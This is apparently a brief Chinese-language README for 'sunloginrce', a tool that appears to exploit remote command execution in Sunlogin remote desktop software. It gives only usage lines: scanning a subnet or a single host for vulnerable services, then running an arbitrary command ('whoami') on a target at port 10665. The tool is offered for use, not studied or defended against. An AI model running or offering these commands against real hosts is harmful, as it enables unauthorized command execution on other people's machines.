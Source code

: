 # sunloginrce
## 使用说明
#### python3 sunloginrce.py -s 192.168.10.0/24
#### python3 sunloginrce.py -s 192.168.10.20
#### python3 sunloginrce.py -i 192.168.10.20 -p 10665 -c "whoami"
![Image text](https://raw.githubusercontent.com/heise5yuetian/sunloginrce/main/20220228101801.jpg)
